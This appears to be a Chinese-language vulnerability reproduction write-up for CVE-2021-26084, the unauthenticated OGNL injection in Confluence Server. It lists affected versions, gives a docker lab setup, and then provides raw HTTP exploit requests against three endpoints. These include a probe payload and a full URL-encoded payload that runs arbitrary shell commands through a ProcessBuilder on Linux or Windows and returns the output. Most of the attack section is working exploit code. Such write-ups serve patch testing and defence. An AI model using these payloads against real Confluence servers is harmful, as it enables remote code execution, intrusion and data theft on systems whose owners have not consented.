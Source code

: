 # CVE-2021-26084

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Confluence Server Webwork OGNL 注入



## 0x01 产品简介

Confluence 是由澳大利亚软件公司 Atlassian 开发的基于 Web 的企业 Wiki。

存在一个 OGNL 注入漏洞，该漏洞允许未经身份验证的攻击者在 Confluence Server 或 Data Center 实例上执行任意代码。

## 0x02 影响范围

```
All 4.x.x versions
All 5.x.x versions
All 6.0.x versions
All 6.1.x versions
All 6.2.x versions
All 6.3.x versions
All 6.4.x versions
All 6.5.x versions
All 6.6.x versions
All 6.7.x versions
All 6.8.x versions
All 6.9.x versions
All 6.10.x versions
All 6.11.x versions
All 6.12.x versions
All 6.13.x versions before 6.13.23
All 6.14.x versions
All 6.15.x versions
All 7.0.x versions
All 7.1.x versions
All 7.2.x versions
All 7.3.x versions
All 7.4.x versions before 7.4.11
All 7.5.x versions
All 7.6.x versions
All 7.7.x versions
All 7.8.x versions
All 7.9.x versions
All 7.10.x versions
All 7.11.x versions before 7.11.6
All 7.12.x versions before 7.12.5
```

## 0x03 环境搭建

执行以下命令以启动 Confluence Server 7.4.10：

```
docker compose up -d
```

环境启动后，访问 [http://your-ip:8090](http://your-ip:8090/)，您将看到安装指南，选择“试用安装”，然后会要求您填写许可证密钥。您应该向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面上，填写数据库地址 db、数据库名称 confluence、用户名 postgres、密码 postgres。

![image.png](image/image.png)

## 0x04 漏洞复现

有多个 API 端点受到此漏洞的影响。

### API端点一：/pages/doenterpagevariables.action

这是一个未授权漏洞，执行 233*233：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![image.png](image/image%201.png)

执行任意命令：

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

### API端点二：/pages/createpage-entervariables.action

未授权漏洞：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### API端点三：/pages/createpage.action

此漏洞需要用户权限才能创建页面：

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close

```